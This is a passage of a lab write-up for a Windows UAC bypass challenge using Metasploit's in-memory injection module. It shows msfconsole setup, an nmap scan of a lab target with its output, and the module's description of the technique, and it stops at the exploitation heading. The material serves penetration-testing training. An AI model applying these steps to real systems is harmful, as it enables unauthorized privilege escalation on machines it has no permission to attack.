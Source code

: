 ***

## Lab 2 - UAC Bypass <a href="#lab-2-uac-bypass" id="lab-2-uac-bypass"></a>

> 🔬 [UAC Bypass: Memory Injection (Metasploit)](https://attackdefense.com/challengedetailsnoauth?cid=2210)
>
> * Target IP: `10.0.22.148`
> * Metasploit [**`Windows Escalate UAC Protection Bypass (In Memory Injection)`**](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac\_injection/) module
>   * _This module will bypass Windows UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off. This module uses the Reflective DLL Injection technique to drop only the DLL payload binary instead of three separate binaries in the standard technique. However, it requires the correct architecture to be selected, (use x64 for SYSWOW64 systems also). If specifying EXE::Custom your DLL should call ExitProcess() after starting your payload in a separate process._

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.0.22.148
setg RHOST 10.0.22.148
workspace -a UACBypass
```

* Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 10.0.22.148
```

```bash
[*] Nmap: Nmap scan report for 10.0.22.148
[*] Nmap: Host is up (0.0024s latency).
[*] Nmap: Not shown: 991 closed ports
[*] Nmap: PORT      STATE SERVICE            VERSION
[*] Nmap: 80/tcp    open  http               HttpFileServer httpd 2.3
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc              Microsoft Windows RPC
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Exploitation / Meterpreter x64 <a href="#exploitation-meterpreter-x64" id="exploitation-meterpreter-x64"></a>
